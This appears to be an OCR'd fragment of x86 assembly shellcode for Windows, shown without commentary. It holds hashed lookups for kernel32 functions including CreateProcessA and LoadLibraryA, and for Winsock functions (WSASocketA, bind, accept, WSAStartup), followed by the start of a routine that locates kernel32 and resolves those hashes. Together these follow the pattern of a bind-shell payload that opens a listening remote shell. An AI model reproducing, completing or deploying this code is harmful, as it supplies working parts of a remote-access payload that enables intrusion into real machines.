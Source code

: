 ```
    mov [edi], eax
    add esp, 0x08
    add edi, 0x04
    cmp esi, ecx
    jne resolve_symbols_for_dll
resolve_symbols_for_dll_finished:
    ret
;END FUNCTION: resolve_symbols_for_dll
;DEFINE CONSTANTS

locate_kernel32_hashes:
    call locate_kernel32_hashes_return
    ;LoadLibraryA
    db 0x8e
    db 0x4e
    db 0x0e
    db 0xec
    ;CreateProcessA
    db 0x72
    db 0xfe
    db 0xb3
    db 0x16
    ;ExitProcess
    db 0x7e
    db 0xd8
    db 0xe2
    db 0x73
;locate_ws2_32_hashes:
    ;WSASocketA
    db 0xd9
    db 0x09
    db 0xf5
    db 0xad
    ;bind
    db 0xa4
    db 0x1a
    db 0x70
    db 0xc7
    ;socket
    db 0xa4
    db 0xad
    db 0x2e
    db 0xe9
    ;accept
    db 0xe5
    db 0x49
    db 0x86
    db 0x49
    ;WSAStartup
    db 0xcb
    db 0xed
    db 0xfc
    db 0x3b
;END DEFINE CONSTANTS
start_asm: ; start our main program
    sub esp, 0x08 ; allocate space on stack for function addresses
    mov ebp, esp ; set ebp as frame ptr for relative offset on stack
    call find_kernel32 ;find address of Kernel32.dll
    mov edx, eax
    ;resolve kernel32 symbols
    jmp short locate_kernel32_hashes ;locate address of our hashes
locate_kernel32_hashes_return: ;define return label to return to this code
    pop esi ;get constants address from stack
```